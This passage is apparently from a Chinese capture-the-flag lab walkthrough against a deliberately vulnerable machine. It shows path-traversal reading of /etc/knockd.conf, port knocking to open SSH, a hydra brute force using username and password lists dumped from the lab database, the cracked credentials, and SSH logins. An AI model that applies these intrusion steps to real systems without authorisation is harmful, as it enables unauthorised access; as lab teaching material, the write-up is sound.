 <br/> 得到一个`file`的参数，在`/home`下发现了非常多的目录

<br/> 联想到刚才的数据库账号密码，应该都能登22端口，但是22端口是过滤状态

#### 文件包含利用

##### 日志访问(失败)

一般利用方式是包含`log`的内容写`shell`<br/> 尝试翻阅一下是否有`log`日志
1.  `/var/log/auth.log # ssh登录日志` 1.  `/var/log/apache2/access.log # apache访问日志` 
查看了一下，好像都没有捏

<br/> 想读`.ssh`来着，但是`ssh`没开放

##### 查看端口守护程序

因为存在过滤端口，从这个角度切入

<br/> 因此存在过滤端口的时候可以尝试访问一下这个文件是否存在
1.  `../../../../../etc/knockd.conf` 1.   1.  `[options] UseSyslog ` 1.  `[openSSH] sequence = 7469,8475,9842 ` 1.  `seq_timeout = 25` 1.  `command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT ` 1.  `tcpflags = syn ` 1.   1.  `[closeSSH] sequence = 9842,8475,7469 ` 1.  `seq_timeout = 25 ` 1.  `command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT ` 1.  `tcpflags = syn` 
#### 端口过滤之敲击守护程序

如果我们按照要求依次访问`7469,8475,9842`三个端口在25秒内，那么利用端口敲击守护程序`ssh`端口就会打开

利用工具`knock`
1.  `sudo apt install knockd` 1.  `knock 192.168.178.209 7469 8475 9842` 
之后访问发现`ssh`端口开放了

#### 暴力破解-SSH爆破hydra

根据数据库爆出来的内容制作`user.txt`以及`passwd.txt`字典
1.  `echo 'marym` 1.  `julied` 1.  `fredf` 1.  `barneyr` 1.  `tomc` 1.  `jerrym` 1.  `wilmaf` 1.  `bettyr` 1.  `chandlerb` 1.  `joeyt` 1.  `rachelg` 1.  `rossg` 1.  `monicag` 1.  `phoebeb` 1.  `scoots` 1.  `janitor` 1.  `janitor2' &amp;gt; user.txt` 1.  `echo '3kfs86sfd` 1.  `468sfdfsd2` 1.  `4sfd87sfd1` 1.  `RocksOff` 1.  `TC&amp;amp;TheBoyz` 1.  `B8m#48sd` 1.  `Pebbles` 1.  `BamBam01` 1.  `UrAG0D!` 1.  `Passw0rd` 1.  `yN72#dsd` 1.  `ILoveRachel` 1.  `3248dsds7s` 1.  `smellycats` 1.  `YR3BVxxxw87` 1.  `Ilovepeepee` 1.  `Hawaii-Five-0' &amp;gt; passwd.txt` 1.  `# -L 指定账号字典 -P指定密码字典` 1.  `hydra -L user.txt -P passwd.txt 192.168.178.209 ssh -s 22 -t 64 - o main` 
查看了对应的`main`文件看到了3个可用
1.  `[22][ssh] host: 192.168.178.209 login: chandlerb password: UrAG0D!` 1.  `[22][ssh] host: 192.168.178.209 login: joeyt password: Passw0rd` 1.  `[22][ssh] host: 192.168.178.209 login: janitor password: Ilovepeepee` 
### 内网遨游-getshell

#### 3开SSH

获取账号密码之后利用SSH进行登录(3个小时到了，换了个目标机)
1.  `sudo ssh chandlerb&lt;span class="label label-primary"&gt;@192.168.208.209&lt;/span&gt; -p22` 1.  `password &amp;gt; UrAG0D!` 1.  `sudo ssh joeyt&lt;span class="label label-primary"&gt;@192.168.208.209&lt;/span&gt; -p22` 1.  `password &amp;gt; Passw0rd` 1.  `sudo ssh janitor&lt;span class="label label-primary"&gt;@192.168.208.209&lt;/span&gt; -p22` 1.  `password &amp;gt; Ilovepeepee` 
<br/> 但是发现输入`find`都没什么用，尝试查找内部的敏感信息<br/> 在`janitor`用户下发现了不一样的东西

